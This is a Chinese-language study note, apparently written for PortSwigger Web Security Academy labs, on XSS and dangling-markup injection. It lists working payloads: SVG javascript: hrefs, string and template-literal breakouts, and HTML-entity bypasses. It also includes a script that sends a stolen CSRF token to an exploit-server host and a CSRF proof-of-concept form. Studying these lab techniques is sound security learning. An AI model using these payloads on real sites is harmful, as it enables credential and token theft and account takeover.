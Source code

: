 9. 对于所有的事件，href链接被拒绝的情况，如下

```html
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
翻译：
https://YOUR-LAB-ID.web-security-academy.net/?search=<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

**Javascript注入**

10. 对于javascript中的XSS注入，注意保持原有的script代码不变     ';alert(document.domain)//，可以在前面添加一个/防止字符串转义（具体看应用程序实现）

```html
\';alert(document.domain)//
```

11. 网页解析中：HTML编码->javascript解析，所以我们可以对诸如’单引号，<font color=red>使用html编码来绕过字符串过滤</font>，或是特殊符号的转义，‘ 的html编码是&apos；    🐮  例如：

```html
&apos;-alert(1)-&apos;
```

12. 可以直接使用javascript模版字符串，不需要断开字符串，直接执行, 前提是用\`\`间隔开。

```
document.getElementById('message').innerText = `Welcome, ${alert(1)}.`
```

**Dangling markup 注入**

利用没有结尾的单引号/双引号来获取用户页面的代码，并发送到自己的恶意域名中，获取csrf token以便进一步攻击

```html
"><img src='//attacker-website.com?
```

高级注入方式：

对于<font color=red>CSP</font>的default-src 'none'情况，网页隔绝了所有资源的加载，（即img，css，js），此时不管用，但仍然可以使用a标签的引用，我们可以通过base标签的target属性，或是form标签的target，不闭合它，设置网页窗口为target后面的内容，然后诱导用户点击跳转到第三方网站，恶意网站读取窗口名字(跨域)，来获取用户的csrf token.

```html
<a href=http://subdomain1.portswigger-labs.net/dangling_markup/name.html><font size=100 color=red>You must click me</font></a><base target="blah....
useless ">for color
实战：
1: 获取csrf token
<script>
if(window.name) {
	new Image().src='https://exploit-0a7c00a3044d819382716936017e0074.exploit-server.net/?'+encodeURIComponent(window.name);
	} else {
		location = 'https://0ac5009e04f781ca82a06a61000e0083.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=https://exploit-0a7c00a3044d819382716936017e0074.exploit-server.net/exploit%3EClick%20me%3C/a%3E%3Cbase%20target=%27123';
}
</script>
2: 执行CSRF攻击
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ac5009e04f781ca82a06a61000e0083.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker@evil-user.net" />
      <input type="hidden" name="csrf" value="Z3klpmNbszbWP11p6zmBvHg2cv9nRdsL" />
      <input type="submit" value="Submit request" />
```